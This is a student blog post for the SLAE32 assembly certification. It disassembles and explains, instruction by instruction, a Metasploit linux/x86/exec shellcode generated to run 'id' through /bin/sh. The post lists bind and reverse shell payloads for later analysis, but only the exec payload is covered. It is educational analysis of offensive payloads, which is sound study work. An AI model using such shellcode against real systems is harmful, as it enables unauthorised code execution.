 ```yaml
---
title: SLAE32 - Assignment#5 [Shellcode Analysis]
author: bigb0ss
date: 2021-04-25 23:53:00 +0800
categories: [SLAE32, Assignment_5_Analysis]
tags: [slae32, assembly, x86, Shellcode Analysis]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#5 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #5 
* Take up at least 3 shellcode samples created using msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis

# Msfpayload Shellcode Analysis
Today I will analyze the following shellcodes generated by the msfpayload, specifically for linux/x86:
* linux/x86/exec - Execute an arbitrary command
* linux/x86/shell/bind_tcp - Spawn a command shell (staged). Listen for a connection (Linux x86)
* linux/x86/shell/reverse_tcp - Spawn a command shell (staged). Connect back to the attacker

# 1) linux/x86/exec
This msfpayload will execute an arbitrary command that you add while creating a payload. Let's create the payload with the linux command `id`.

```bash
# msfvenom -p linux/x86/exec CMD=id -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 38 bytes
Final size of c file: 185 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69"
"\x64\x00\x57\x53\x89\xe1\xcd\x80";
```

Then, we will use `ndisasm` - the Netwide Disassembler - to disassemble the created shellcode. 

```console
# echo -ne "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69\x64\x00\x57\x53\x89\xe1\xcd\x80" | ndisasm -b 32 -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call 0x20
0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
00000025  80                db 0x80


### echo:
-n : Do not output the trailing newline
-e : Enable interpretation of backslash escapes

### ndisasm
-b : Set the processor mode
```

Let's analyze the disassembled payload.

```nasm

00000000  6A0B              push byte +0xb  							; Pushing a single byte 0xb. 0xb = 11 in decimal which is "Execve" syscall in the unistd_32.h library. 
																		;
																		; # cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 11
																		; #define __NR_execve 11

00000002  58                pop eax										; [EAX = 0xb] Storing the single byte 0xb into the EAX register so that we can call "Execve" from the EAX register.
																		;
																		; ================================ Execve Layout Example ================================
																		; int execve(const char *filename, char *const argv[], char *const envp[]);
																		;            -------- EBX -------- ------- ECX ------- ------- EDX --------
																		;                      ⬇                   ⬇                  ⬇
																		;                  "filename"       "Addr of filename"     "0x00000000"
																		; =======================================================================================

00000003  99                cdq											; [EDX = 0x0] Zeroing out the EDX register by copying the sign bit in the EAX register to every bit position in the EDX. (Since no sign bit is set in EAX, all value is 0)

00000004  52                push edx 									; Pushing EDX (0x0) onto the stack

00000005  66682D63          push word 0x632d							; Pushing 0x632d ('-c') onto the stack
																		;
																		; >>> print('\x63\x2d')
																		; c-

00000009  89E7              mov edi,esp									; [EDI = '-c'] Moving current stack (ESP = '-c') into the EDI register 

0000000B  682F736800        push dword 0x68732f							; Pushing 0x68732f ('/sh') onto the stack
																		;
																		; >>> print('\x68\x73\x2f')
																		; hs/

00000010  682F62696E        push dword 0x6e69622f						; Pushing 0x6e69622f ('/bin') onto the stack
																		;
																		; >>> print('\x6e\x69\x62\x2f')
																		; nib/

00000015  89E3              mov ebx,esp 								; [EBX = '/bin/sh'] Moving current stack (ESP = '/bin/sh') into the EBX register

00000017  52                push edx 									; Pushing EDX (0x0) onto the stack

00000018  E803000000        call 0x20									; Pushing the return address (0x20) onto the stack --> which is \x57\x53\x89\xE1\xCD\x80

0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953	; 0x696400 = 'id' + null terminator
																		;
00000025  80                db 0x80										; 0x575389E1CD80 --> Disassmble it with ndisasm again:
																		; 
																		; # echo -ne "\x57\x53\x89\xE1\xCD\x80" | ndisasm -b 32 -
																		; 00000000  57                push edi 						; Pushing EDI ('-c') onto the stack
																		; 00000001  53                push ebx 						; Pushing EBX ('/bin/sh') onto the stack
																		; 00000002  89E1              mov ecx,esp 					; [ECX = '/bin/sh' '-c' 'id' '0x0'] Moving the current stack (ESP) to ECX
																		; 00000004  CD80              int 0x80 						; Handle system_call --> "Execve"
																		;
																		; Syscall: [EAX = 0xb = execve] [EBX = '/bin/sh'] [ECX = '/bin/sh' '-c' 'id' '0x0'] [EDX = 0x0]
```




<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#5 Github](https://github.com/bigb0sss/SLAE32)